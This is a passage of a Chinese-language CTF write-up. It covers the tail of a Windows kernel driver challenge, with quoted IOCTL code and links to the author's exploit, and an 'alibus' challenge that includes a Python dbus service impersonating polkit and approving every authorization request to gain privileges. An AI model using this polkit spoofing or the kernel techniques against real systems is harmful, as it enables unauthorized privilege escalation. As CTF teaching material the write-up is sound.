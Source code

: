 当然可行的利用方法不唯一，比如赛中唯一解出这道题目的Nu1L使用的是clfs的对象进行的堆喷占位。

这道题目的唯一坑点可能是64位程序在调用IOCTL\_ALLOCATE32时会因为integer truncation发生无效地址访问导致蓝屏：

```plain
#define IOCTL_ALLOCATE32 \
    CTL_CODE( SIOCTL_TYPE, 0x900, METHOD_BUFFERED, FILE_ANY_ACCESS  )

    switch ( irpSp->Parameters.DeviceIoControl.IoControlCode )
    {
    case IOCTL_ALLOCATE32:
......
            ULONG MappedBuffer = (ULONG)MmMapLockedPagesSpecifyCache(Mdl, UserMode, MmNonCached, NULL, FALSE, NormalPagePriority); // 32 bit address
......
            RtlFillMemory((PVOID)MappedBuffer, BufferSize, 0xFF);
```

因为这里设计是给32位程序使用的回调，64位程序的用户态地址在发生integer truncation后往往是非法地址，预期是通过一个32位的程序完成利用，但最终来看只给Nu1L一个队伍增加了一点难度:p

ps1: 在当前Windows 11系统（Build版本号为22621）中，Medium Integrity的用户仍然可以读取内核地址，同时PreviousMode的方法仍然可以使用，如果有选手想要复现这道题目请注意系统版本，题目附件可以从[SYSTEM\_70812a289a4097da53b89a5f8905018964b87aac5c2ff3921deb9797535bbf75622a2a67e7f0adfaf83155b3849158a03810bc239eb95e9694fbf8a3497d1cad.zip](https://1drv.ms/u/s!An3IrMK1dZVygfwbN_5_N4tWqwF2pw?e=jM6Np3)下载，作者的exploit可以从[poc.zip](https://1drv.ms/u/s!An3IrMK1dZVygfxk91yMqnVsUxrVfQ?e=YFRevK)下载

## alibus

题目是一个简单的 dbus 服务配置导致不当导致可以提权的场景

可以看到这个dbus配置，允许在没有授权的情况下接受连接，并允许客户端 "own" any service

利用思路如下:

1.编写一个自己的一个 dbus 服务, 实现 CheckAuthorization 函数

```plain
from gi.repository import GLib

import dbus
import dbus.service
import dbus.mainloop.glib

class SomeObject(dbus.service.Object):

    @dbus.service.method("org.freedesktop.PolicyKit1.Authority",
                         in_signature='(sa{sv})sa{ss}us', out_signature='(bba{ss})')
    def CheckAuthorization(self, subject,action_id,details,flags,cancellation_id):
        print(subject)
        print(action_id)
        print(details)
        print(flags)
        print(cancellation_id)
        return (True,False,{})

    def Exit(self):
        mainloop.quit()

if __name__ == '__main__':
    dbus.mainloop.glib.DBusGMainLoop(set_as_default=True)
    # bus=dbus.bus.BusConnection("tcp:host=192.168.59.186,port=55557")
    bus= dbus.SystemBus()
    name = dbus.service.BusName("org.freedesktop.PolicyKit1", bus, replace_existing=True)
    print(bus.get_unique_name())
    object = SomeObject(bus, '/org/freedesktop/PolicyKit1/Authority')
    mainloop = GLib.MainLoop()
    print("Running example service.")
```